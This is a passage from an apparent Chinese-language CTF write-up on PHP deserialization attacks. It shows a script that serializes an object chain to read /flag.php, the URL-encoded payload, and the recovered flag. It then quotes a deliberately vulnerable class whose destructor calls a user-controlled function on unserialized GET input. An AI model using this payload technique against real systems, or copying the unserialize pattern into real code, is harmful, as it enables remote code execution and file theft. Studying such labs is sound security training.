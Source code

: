 ```
$c=new ace;
$b->cinder=$c;
$c->docker='';
$c->filename='/flag.php';
echo urlencode(serialize($b));

?>
```

```
?pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A6%3A%22cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A9%3A%22%2Fflag.php%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3Bs%3A0%3A%22%22%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

![image9c886f41229594dd.png](https://z4a.net/images/2022/06/02/image9c886f41229594dd.png)

```

<?php
// ctfhub{1035800175138278d4dba43e};
$heat='asdwe1g648798qwe321d65';
?>
```

## php反序列化题型扩展

看这个题目

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```
